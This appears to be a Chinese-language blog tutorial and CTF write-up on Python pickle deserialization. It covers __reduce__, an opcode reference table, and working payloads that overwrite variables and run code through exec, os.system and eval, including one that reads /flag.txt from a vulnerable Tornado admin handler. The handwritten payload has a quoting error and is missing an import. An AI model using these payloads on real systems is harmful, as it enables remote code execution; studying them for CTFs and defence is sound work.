

初探pickle反序列化
object.__reduce__函数
- 在开发时，可以通过重写类的
object.__reduce__()函数，使之在被实例化时按照重写的方式进行。具体而言，python要求object.__reduce__()返回一个(callable, ([para1,para2...])[,...])的元组，每当该类的对象被unpickle时，该callable就会被调用以生成对象（该callable其实是构造函数）。 - 在下文pickle的opcode中，
R的作用与object.__reduce__()关系密切：选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数。其实R正好对应object.__reduce__()函数，object.__reduce__()的返回值会作为R的作用对象，当包含该函数的对象被pickle序列化时，得到的字符串是包含了R的
picktools
pictools可以把opcode转化成规范格式，便于观看
import pickletools
test=b'\x80\x03c__main__\nTest\nq\x00)\x81q\x01}q\x02X\x04\x00\x00\x00testq\x03X\x0b\x00\x00\x00hello worldq\x04sb.'
print(pickletools.dis(test))

漏洞利用
变量覆盖
代码执行
变量覆盖
import pickle
test1=b'hello'
test2=b'world'
class Test():
def __reduce__(self):
te="test1=b'no'\ntest2=b'success'"
return exec,(te,) #return参数必须为元组
new=Test()
a=pickle.dumps(new)
print(a)
pickle.loads(a)
print(test1,test2)
代码执行
import pickle
import os
class Rc:
def __reduce__(self):
shell="echo 'hello world'"
return os.system,(shell,)
a=Rc()
pi=pickle.dumps(a)
print(pi)
print(pickle.loads(pi))
手动编写opcode
reduce一次只能执行一个函数，当exec被禁，就不能一次执行多个指令
| opcode | 描述 | 具体写法 | 栈上的变化 | memo上的变化 |
|---|---|---|---|---|
| c | 获取一个全局对象或import一个模块（注：会调用import语句，能够引入新的包） | c[module]\n[instance]\n | 获得的对象入栈 | 无 |
| o | 寻找栈中的上一个MARK，以之间的第一个数据（必须为函数）为callable，第二个到第n个数据为参数，执行该函数（或实例化一个对象） | o | 这个过程中涉及到的数据都出栈，函数的返回值（或生成的对象）入栈 | 无 |
| i | 相当于c和o的组合，先获取一个全局函数，然后寻找栈中的上一个MARK，并组合之间的数据为元组，以该元组为参数执行全局函数（或实例化一个对象） | i[module]\n[callable]\n | 这个过程中涉及到的数据都出栈，函数返回值（或生成的对象）入栈 | 无 |
| N | 实例化一个None | N | 获得的对象入栈 | 无 |
| S | 实例化一个字符串对象 | S'xxx'\n（也可以使用双引号、\'等python字符串形式） | 获得的对象入栈 | 无 |
| V | 实例化一个UNICODE字符串对象 | Vxxx\n | 获得的对象入栈 | 无 |
| I | 实例化一个int对象 | Ixxx\n | 获得的对象入栈 | 无 |
| F | 实例化一个float对象 | Fx.x\n | 获得的对象入栈 | 无 |
| R | 选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数 | R | 函数和参数出栈，函数的返回值入栈 | 无 |
| . | 程序结束，栈顶的一个元素作为pickle.loads()的返回值 | . | 无 | 无 |
| ( | 向栈中压入一个MARK标记 | ( | MARK标记入栈 | 无 |
| t | 寻找栈中的上一个MARK，并组合之间的数据为元组 | t | MARK标记以及被组合的数据出栈，获得的对象入栈 | 无 |
| ) | 向栈中直接压入一个空元组 | ) | 空元组入栈 | 无 |
| l | 寻找栈中的上一个MARK，并组合之间的数据为列表 | l | MARK标记以及被组合的数据出栈，获得的对象入栈 | 无 |
| ] | 向栈中直接压入一个空列表 | ] | 空列表入栈 | 无 |
| d | 寻找栈中的上一个MARK，并组合之间的数据为字典（数据必须有偶数个，即呈key-value对） | d | MARK标记以及被组合的数据出栈，获得的对象入栈 | 无 |
| } | 向栈中直接压入一个空字典 | } | 空字典入栈 | 无 |
| p | 将栈顶对象储存至memo_n | pn\n | 无 | 对象被储存 |
| g | 将memo_n的对象压栈 | gn\n | 对象被压栈 | 无 |
| 0 | 丢弃栈顶对象 | 0 | 栈顶对象被丢弃 | 无 |
| b | 使用栈中的第一个元素（储存多个属性名: 属性值的字典）对第二个元素（对象实例）进行属性设置 | b | 栈上第一个元素出栈 | 无 |
| s | 将栈的第一个和第二个对象作为key-value对，添加或更新到栈的第三个对象（必须为列表或字典，列表以数字作为key）中 | s | 第一、二个元素出栈，第三个元素（列表或字典）添加新值或被更新 | 无 |
| u | 寻找栈中的上一个MARK，组合之间的数据（数据必须有偶数个，即呈key-value对）并全部添加或更新到该MARK之前的一个元素（必须为字典）中 | u | MARK标记以及被组合的数据出栈，字典被更新 | 无 |
| a | 将栈的第一个元素append到第二个元素(列表)中 | a | 栈顶元素出栈，第二个元素（列表）被更新 | 无 |
| e | 寻找栈中的上一个MARK，组合之间的数据并extends到该MARK之前的一个元素（必须为列表）中 | e | MARK标记以及被组合的数据出栈，列表被更新 | 无 |
注意：c操作符会尝试import库，所以在pickle.loads时不需要漏洞代码中先引入系统库
经常使用的R ,O,i
变量覆盖
import pickle
class Test:
def __init__(self,test):
self.test=test
print(self.test)
#R
# p=b'''c__main__
# Test
# (S'hello'
# tR.
# '''
#O
# p=b'''(c__main__
# Test
# S'hello'
# o.
# '''
#I
p=b'''(S'hello'
i__main__
Test
.
'''
he=pickle.loads(p)
print(he.test)
ctf ikun
部分代码
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib
class AdminHandler(BaseHandler):
@tornado.web.authenticated
def get(self, *args, **kwargs):
if self.current_user == "admin":
return self.render('form.html', res='This is Black Technology!', member=0)
else:
return self.render('no_ass.html')
@tornado.web.authenticated
def post(self, *args, **kwargs):
try:
become = self.get_argument('become')
p = pickle.loads(urllib.unquote(become))
return self.render('form.html', res=p, member=1)
except:
return self.render('form.html', res='This is Black Technology!', member=0)
手写版
import pickle
pi='''c__builtin__
eval
(S'open('/flag.txt','r').read()'
tR.
'''
print(urllib.quote(pi))
代码版
import pickle
import urllib
class AdminHandler(object):
def __reduce__(self):
shell=b"open('/flag.txt','r').read()"
return eval,(shell,)
print(pickle.dumps(AdminHandler()))
print(urllib.quote(pickle.dumps(AdminHandler())))